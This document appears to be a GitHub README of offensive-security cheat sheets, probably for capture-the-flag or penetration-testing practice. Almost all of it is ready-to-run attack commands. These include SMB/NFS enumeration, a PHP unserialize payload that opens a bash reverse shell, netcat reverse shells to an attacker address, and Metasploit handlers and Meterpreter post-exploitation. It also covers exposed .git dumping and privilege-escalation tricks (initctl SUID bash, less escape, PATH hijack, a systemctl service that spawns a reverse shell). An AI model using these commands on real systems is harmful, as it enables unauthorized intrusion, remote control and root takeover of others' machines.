 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```

## Web Apps:
+ <b>Check for vhost routing, modify /etc/hosts</b>
+ <b>.php files may have .bak (backup)</b>
+ <b>RCE via PHP Unserialize</b>
```
https://notsosecure.com/remote-code-execution-via-php-unserialize/
+ serialize as necessary as a parameter
public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/192.168.0.1/4242 0>&1\'"); ?>';
```
+ <b>Check for insecure redirects</b>
Open up ZAP/Burpsuite, capture the 302 response, change the status code from 302 to 200 and change the location field.

![image](https://user-images.githubusercontent.com/34889665/120560666-1e5e2680-c3d1-11eb-8d61-7dbd590ab5e5.png)
+ <b>Check for exposed /.git directory</b> 
Clone repository:
```bash
wget --mirror -I .git TARGET.COM/.git/ 
```

Get files from last commit:
```bash
git checkout -- .
```

Check out commit log:
```bash
git log
```

Check out previous commit:
```bash
git checkout 123456789
```

## Reverse Shells:

+ <b>Netcat - Listener</b>
```console
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```console
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```console
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```
+ <b>Metasploit - Listener</b>
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
OR
set PAYLOAD linux/x86/shell/reverse_tcp
set LHOST 192.168.0.1
set LPORT 4242
run
```

## Upgrading/Stablizing Shells:

+ <b>Shell To Meterpreter</b>
```bash
(After shell has been backgrounded in Metasploit)
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
(OR)
sessions -u 1
```

+ <b>Using Python</b>

*Upgrading:*
```console
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```console
$^Z
$stty raw -echo; fg
(ENTER)
```
## Post-Meterpreter Shell To-Do's:
+ <b>Background Meterpreter Session</b>
```console
^Z
Y
```
+ <b>Use Local Exploit Suggester</b>
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Windows Target:
+ <b>Get System Info (from meterpreter session)</b>
```
sysinfo
```

+ <b>Get System Info (standard shell) *look for hotfixes*</b>
```
systeminfo
```

## Enumeration:
+ <b>LinPEAS</b>
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```


## Privilege Escalation:

+ <b>/sbin/initctl</b>
```
Check current status of services
sudo -u root /sbin/initctl list
```
```
Add this to test.conf
script
    chmod +s /bin/bash
end script
```
```
sudo /sbin/initctl start test.conf
$/bin/bash -p
#whoami
```

+ <b>less</b>
```
less [file in path user is allowed to execute less as root with]
!/bin/sh
```

+ <b>Add '.' to $PATH</b>
```
PATH=.:${PATH}
```

+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```

+ <b>Check for world writable files</b>

```
find / -perm -2 -type f 2>/dev/null
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```

